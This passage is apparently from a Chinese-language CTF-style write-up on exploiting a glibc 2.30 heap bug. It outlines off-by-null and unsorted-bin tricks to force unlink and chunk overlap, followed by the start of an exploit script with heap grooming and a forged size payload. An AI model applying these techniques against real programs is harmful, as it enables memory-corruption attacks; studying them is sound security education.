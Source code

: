 1、准备好辅助堆块和功能堆块

2、利用off-by-null 使得最后想要向上合并的chunk（下文的57号堆）的presize保持不变

3、利用unsortbin成链使得将要被合并的堆块留下fd 、 bk都在堆地址附近（下文的50号堆）

4、利用unsortbin成链机制想办法在50号的bk对应堆的fd指向50号附近

5、利用unsortbin成链机制想办法在50号的fd对应堆的bk指向50号附近

6、利用off-by-null 结构将4 5 中堆末尾的偏移覆盖成null ，使得其确实指向50号堆块

7、伪造size , 删除57号chunk ， 进行unlink 造成堆块重叠

### <a class="reference-link" name="1%E3%80%81"></a>1、

脚本的最开始首先进行了很多堆块的分配

```
claim(0x88)# 0-6
    claim(0x98)# 7-13
    claim(0xa8)# 14-20
    claim(0xb8)# 21-27
    claim(0xc8)# 28-34
    claim(0xd8)# 35-41
    claim(0xe8)# 42-48

    #--------------------------
    add(0x98)# 49
    edit(49,'A'*8)
    add(0x98)# 50

    add(0x18)# 51
    add(0xa8)# 52    0

    add(0xb8)# 53     1
    add(0xd8)# 54     2
    add(0xd8)# 55

    edit(54,"A"*8)

    add(0xe8)# 56     3
    pay = p64(0x200) + p64(0xe0)
    # print len(pay)
    # pause()
    edit(56,pay)# 这里因为2.30中 从,unsortedbin 中卸下，malloc的时候也会检查next_size  
    #-------------------------
    add(0xe8)# 57    4
    add(0x98)# 58
    add(0xe8)# 59
    add(0x18)# 60
```

在unsortdbin中分配堆块是需要绕过这两个check，所以脚本中对56号堆块写了p64(0x200)+p64(0xe0)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t01c34a75351e3dcb8e.png)
